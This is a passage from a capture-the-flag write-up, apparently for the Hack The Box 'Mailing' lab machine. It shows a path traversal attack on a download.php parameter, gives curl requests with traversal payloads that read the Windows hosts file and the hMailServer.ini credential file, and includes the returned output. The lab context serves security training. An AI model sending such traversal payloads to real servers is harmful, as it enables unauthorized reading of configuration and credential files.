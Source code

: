 ```shell
http://mailing.htb/download.php?file=instructions.pdf
```

The application seems to read the value of the file parameter in the URL and includes the file on the server. This means that if the application doesnt sanitize the input in the download parameter, we could abuse this creating a malicious request to exfiltrate and read information from the target.

### Abusing Path Traversal vulnerability to get credentials
Lets try to craft a request payload to read files and get information. Notice that we are attacking a Windows machine and we will need to craft a payload for a Windows machine.

We can capture the request and edit it on Burp Suite or use the curl command.

I will use curl with the following command:

```shell
curl -X 'GET' 'http://mailing.htb/download.php?file=..\..\Windows\System32\drivers\etc\hosts'
```

If we examine the response, we will notice that we were able to read the contents of \etc\hosts on the Windows target successfully:

```shell
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost

127.0.0.1       mailing.htb
```

Lets change the payload and try to get more information:

```shell
curl -X 'GET' 'http://mailing.htb/download.php?file=..\..\..\Program+Files+(x86)\hMailServer\Bin\hMailServer.ini'
```

